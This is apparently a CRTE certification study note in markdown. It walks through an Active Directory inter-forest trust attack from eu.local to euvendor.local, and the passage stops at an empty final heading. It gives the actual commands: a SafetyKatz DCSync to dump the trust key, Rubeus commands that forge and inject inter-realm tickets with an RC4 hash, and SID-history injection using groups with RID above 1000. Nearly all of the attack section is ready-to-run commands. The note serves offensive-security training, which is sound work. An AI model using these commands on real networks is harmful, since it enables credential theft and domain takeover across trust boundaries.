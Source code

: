 # Methodology
>1. Dump the trust key of the child domain.
>2. Check if SID Filtering is enabled.
>3. Forge an inter-forest ticket.
>4. Inject the ticket. 
>5. Enumerate group RID > 1000 on the target domain.
>6. Forge an inter-forest ticket with special SIDS.
>7. Inject the ticket


>**ℹ️ Info:**
>In this example we go from `eu.local` to `euvendor.local` .

---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## AD Module
**Check if SID Filtering is enabled:**
```powershell
Get-ADTrust -Filter *
```

**Look for groups with RID higher than 1000 in the target machine:**
```powershell
Get-ADGroup -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server euvendor.local
```

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz
**Dump trust key for the inter-forest trust:**
```cmd
SafetyKatz.exe '"lsadump::dcsync /user:eu\euvendor$"'
```

## Rubeus

**Forge an inter-realm TGT:**
```cmd
Rubeus.exe silver /user:Administrator /ldap /service:krbtgt/eu.local /rc4:b96659c7b2109d2e63e6de676d48646c /sid:S-1-5-21-3657428294-2017276338-1274645009 /nowrap 
```

**Inject the ticket:**
```cmd
Rubeus.exe asktgs /ticket:doIFEzCCBQ /service:CIFS/euvendor-dc.euvendor.local /dc:euvendordc.euvendor.local /ptt
```

>**ℹ️ Info:**
>We can only access specific resources that are explicitly shared!

**Forge a TGS using inter-realm TGT:**
```cmd
Rubeus.exe asktgs /service:http/euvendornet.euvendor.local /dc:euvendor-dc.euvendor.local /ptt /ticket:doIFOzCCBT...
```

**Inject SID history of group with RID > 1000:**
```cmd
Rubeus.exe silver /user:Administrator /ldap /service:krbtgt/eu.local /rc4:b96659c7b2109d2e63e6de676d48646c /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /nowrap
```

**Request TGS with the TGT:**

